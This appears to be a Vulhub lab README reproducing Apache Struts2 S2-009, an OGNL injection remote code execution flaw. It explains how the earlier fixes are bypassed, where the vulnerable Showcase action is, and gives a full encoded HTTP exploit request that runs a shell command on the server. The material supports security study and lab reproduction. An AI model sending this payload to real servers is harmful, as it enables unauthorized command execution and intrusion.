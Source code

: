 # S2-009 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.1.1

Details: http://struts.apache.org/docs/s2-009.html

## Setup

```
docker compose build
docker compose up -d
```

## Reference

> This vulnerability is derived from s2-003, s2-005. If you want to understand the principle of the vulnerability, you need to read the instructions of s2-005: https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

[Struts2 vulnerability analysis](https://www.t00ls.net/viewthread.php?tid=21197), as mentioned in the article, the method of introducing OGNL may not only appear in this vulnerability, but may also appear in other Java applications.

Struts2's repair method for s2-003 is to prohibit static method calls. In s2-005, this restriction can be bypassed directly through OGNL. For the `#` number, use the code `\u0023` or `\43` to bypass; then s2-005's repair is forbidden \ and others special symbols that prevent users submit backslashes.

However, if a parameter `example` is accepted in the current action, this parameter will be sent to the OGNL expression. So, we can put the OGNL expression code in the `example` parameter and then execute it by `/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`, then bypass defense of special characters such as `#`, `\`.

## Exploit

The environment is a struts2 "feature display" website named `Struts Showcase`. We need find an action that accepts the parameter, and type is string.

First decompress `S2-009.war`. We can see that source code is in the `WEB-INF/src` directory, I generally look for ajax related code.

Found one in`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`:

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

The code is simple, it accepts the name parameter and calls setName to assign it to the private property `this.name`, which is in line with our requirement. Then we go to `WEB-INF/src/java/struts-ajax.xml` to see the URL routing setting:

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

We can see `name=example5`, so access the controller by visiting `http://your-ip:8080/ajax/example5.action`. Then put the OGNL exploit code in the name parameter and access the URL:

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

The POC don't have display, so we use `touch /tmp/success` command, and we found that the `success` file has been created to prove that expliot succeeded.

![](1.png)
